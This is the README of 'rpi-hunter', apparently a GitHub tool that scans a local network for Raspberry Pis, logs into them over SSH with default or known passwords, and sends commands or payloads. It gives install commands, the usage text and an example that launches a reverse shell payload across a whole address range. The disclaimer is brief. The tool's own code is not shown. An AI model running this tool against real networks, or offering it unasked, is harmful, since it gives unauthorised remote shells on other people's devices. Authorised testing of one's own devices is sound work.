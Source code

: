 # rpi-hunter
Automate discovering and dropping payloads on LAN Raspberry Pi's via ssh

![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

rpi-hunter is  useful when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands/payloads to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: `sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py`

## Usage
```
usage: rpi-hunter.py [-h] [--list] [--no-scan] [-r IP_RANGE] [-f IP_LIST]
                     [-c CREDS] [--payload PAYLOAD] [-H HOST] [-P PORT]
                     [--safe] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --list             List available payloads
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -u UNAME           Username to use when ssh'ing
  -c CREDS           Password to use when ssh'ing
  --payload PAYLOAD  (Name of, or raw) Payload [ex. reverse_shell or 'whoami']
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
  -q                 Don't print banner
```
* Example usage: `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337` 
* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw input
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

## Disclaimer
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.

## I am in no way responsible for anything and everything you do with rpi-hunter.

